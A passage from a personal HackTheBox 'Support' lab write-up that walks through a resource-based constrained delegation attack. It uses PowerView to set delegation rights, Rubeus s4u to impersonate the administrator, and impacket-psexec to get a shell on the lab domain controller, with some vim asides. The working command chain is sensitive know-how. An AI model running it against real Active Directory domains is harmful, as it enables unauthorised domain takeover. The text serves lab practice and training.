 Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView in this case:

```powershell
Get-DomainComputer attackersystem | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

[SharpCollection: Rubeus](https://github.com/Flangvik/SharpCollection.git) or [Ghostpack/Rubeus](https://github.com/GhostPack/Rubeus)
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

```bash
Rubeus.exe hash /password:Summer2018!
```

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

```bash
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```

![](attackdeploymachine.png)
` EF266C6B963C0BB683941032008AD47F `

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/DC.support.htb /ptt
```

![](wowowowow.png)

Remove all spaces vim motion and set mode to paste! - I finally got around the issue! wow!
```lua
:set paste
%s/ //g
:wq ticket.kirbi.b64
```
I used mouspad and echo for ages to work around tmux. I got better various Vim stuff. And for vim just `%` not `:` like vi.

Decode Ticket, Convert the Ticket and set KRB5CCNAME variable 
```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi 
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=ticket.kirbi
impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

## Beyond Root

Does Al have any beyond root ideas that arent just patching the AD vulnerability in this box that is good for OSCP preparation  
